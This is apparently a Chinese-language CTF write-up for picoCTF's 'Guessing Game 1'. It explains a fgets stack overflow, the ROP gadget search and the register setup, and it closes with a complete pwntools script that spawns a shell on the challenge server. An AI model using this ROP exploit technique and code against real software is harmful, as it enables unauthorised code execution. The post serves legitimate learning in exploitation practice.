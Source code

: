 ```yaml
---
layout: post
title: picoCTF - Guessing Game 1 (ROP Chain)
slug: picoCTF - Guessing Game 1 (ROP Chain)
category: PWN
published: true
---
```


[Guessing Game 1](https://play.picoctf.org/practice/challenge/90?category=6&page=1)

这题主要涉及到的是ROP chain的使用，由于没做过这类题所以还是学到不少东西，在这里输出一下。

## Code Review

题目有三个文件，分别是源码、执行文件和Makefile，可以看到Makefile里的编译指令开启了这些选项`-fno-stack-protector -O0 -no-pie -static`，分别是关闭栈保护，无优化，代码位置不会改变，且没有动态库，libc都被静态链接进来了。（**调试时候使用题目发的二进制，不要自己编译，因为最后需要nc到服务器上执行，代码地址可能会有变动（嗨，在这吃了亏）**）

```bash
clot@ubuntu:~/CTF/GuessGame1$ ./vuln
Welcome to my guessing game!

What number would you like to guess?
84
Congrats! You win! Your prize is this print statement!

New winner!
Name? Jin
Congrats Jin


What number would you like to guess?
```

通过执行程序和读源码 vuln.c，理解了大致流程：

 1. 猜一个随机数+1后的结果
 2. 正确则会要求输入名字
 3. 继续猜数字

并发现可利用漏洞位置：

```c
#define BUFSIZE 100

void win() {
 char winner[BUFSIZE];
 printf("New winner!\nName? ");
 fgets(winner, 360, stdin);
 printf("Congrats %s\n\n", winner);
}
```

这里的`BUFSIZE`是100，所以栈上只留了100的空间，然而`fgets`可以读取360个字符，这就可以导致栈溢出，修改return地址了。

整个程序中没有打印flag的地方，也没有执行`system('/bin/sh')`的地方，需要我们自己拼凑`ROPGadget`构建。

### 注意，这个程序是开启了`NXEnable`的，所以栈上的内容是不可执行的，也就说shellcode的方法不能用了

```bash
[*] '/home/clot/CTF/GuessGame1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

### 主要步骤如下

1. 解决伪随机数
2. 确认字符串长度及覆盖地址
3. 查找到对应的gadget
4. 构建`syscall` `execve`函数及参数(因为找不到`system`函数调用)

伪随机数的问题很好解决，猜对后输入名字，长度足够覆盖到ret地址。通过在运行时观察栈的布局，可以看到ret地址(0x0000000000400d01)在120个字符串之后。(0x7fffffffde28 - 0x7fffffffddb0 = 120)

```bash
pwndbg> x/40gx $rsp - 0x70
0x7fffffffdda0: 0x0000000000401a80 0x0000000000400c71
0x7fffffffddb0: 0x4141414141414141 0x000000000049000a
0x7fffffffddc0: 0x00000000006bc0a0 0x00000000006ba018
0x7fffffffddd0: 0x0000000000000000 0x00000000004163b3
0x7fffffffdde0: 0x000000000000001d 0x00000000006ba360
0x7fffffffddf0: 0x00000000004930e8 0x00000000004112c2
0x7fffffffde00: 0x00007fffffffdf88 0x0000000000000054
0x7fffffffde10: 0x0000000000000054 0x0000000100401a80
0x7fffffffde20: 0x00007fffffffde50 0x0000000000400d01
0x7fffffffde30: 0x00007fffffffdf78 0x0000000100401a80
```

接下来我们要调用`syscall`，其参数和函数地址都通过`ROPGadget`来获得。我将gadget全部导入了一个文件中。

```sh
$ROPGadget --binary vuln > gadget
```

`syscall`的参数：

 1. `execve`调用号:59 （存放到RAX)

 2. `execve`的参数: `/bin/sh, 0, 0`

所以我们需要的寄存器分别是：

```text
RAX: 59  
RDI: 字符串'/bin/sh'的地址  
RSI: 0  
RDX: 0
```

这样，我们要从gadget中找的东西就明了了:

```text
0x00000000004163f4 : pop rax ; ret
0x0000000000400696 : pop rdi ; ret
0x0000000000410ca3 : pop rsi ; ret
0x000000000044a6b5 : pop rdx ; ret
0x000000000040137c : syscall
```

问题来了，找不到`/bin/sh`这个字符串。这玩意也要我们自己来构建了。
我们能够用的办法就是调用类似`fgets`从stdin读取输入的函数，来获取`/bin/sh`。

`fgets`函数是找到了，结果这个函数地址是`0x4010a10`。这里面有一个**0a**。如果字符串中包含这个字符，传给`fgets`后是会被截断的。尝试骗过输入后改地址失败后，换用`read`函数了。。

`read`地址为：0x44a6a0，没有会被中断的符号。函数需要三个参数，分别是:

```text
rdi: stdin
rsi: &buff
rdx: length
```

这里的buff存放地址需要自己找一个进程中可读可写的地方，在调试时可以通过`vmmap`来查看：

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x4b7000 r-xp    b7000 0      /home/clot/CTF/GuessGame1/vuln
          0x6b7000           0x6bd000 rw-p     6000 b7000  /home/clot/CTF/GuessGame1/vuln
          0x6bd000           0x6e1000 rw-p    24000 0      [heap]
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000 0      [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000 0      [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

可以看到`0x6b7000 ~ 0x6bd000`可读可写，从中选了一个位置`0x6bc500`。

## Exploit

基本条件都已经满足了，可以写Exploit了。

### ERROR

运行后会发现报错：**got eof while reading in interactive**，google了下发现可能是某些关键的寄存器被改成不合法的了，调试了下发现，`rbp`的值被改成了120个A的最后8个改成了`41414141414141..`，那么再找一个可读可写相对安全的地址给它 `0x6ba500`，用112个A和这个地址拼凑成120个字符。

完整的exploit:

```python
from pwn import *

host = 'jupiter.challenges.picoctf.org'
port = '50581'
p = remote(host, port)

# Local
#elf = ELF('./vuln')
#p = elf.process()
#gdb.attach(p)

p.recv(1024)
p.sendline('84')
p.recv(1024)

newRBP = 0x6ba500

payload = b'A'*112 + p64(newRBP)
popRAX = 0x4163f4
popRDI = 0x400696
popRSI = 0x410ca3
popRDX = 0x44a6b5
syscall = 0x40137c

read = 0x44a6a0
stdin = 0x6ba580
buff = 0x6bc500

# get string '/bin/sh'
payload += p64(popRDI)
payload += p64(0)
payload += p64(popRSI)
payload += p64(buff)
payload += p64(popRDX)
payload += p64(7)
payload += p64(read)

# syscall - execve('/bin/sh', 0, 0)
payload += p64(popRAX)
payload += p64(59)
payload += p64(popRDI)
payload += p64(buff)
payload += p64(popRSI)
payload += p64(0)
payload += p64(popRDX)
payload += p64(0)
payload += p64(syscall)

p.sendline(payload)
binSh = b'/bin/sh'
p.sendline(binSh)
p.interactive()
```

运行并成功获取到flag：

```bash
clot@ubuntu:~/CTF/GuessGame1$ python3 vuln_expolit.py
[+] Opening connection to jupiter.challenges.picoctf.org on port 50581: Done
[*] Switching to interactive mode
Congrats! You win! Your prize is this print statement!

New winner!
Name? Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
```
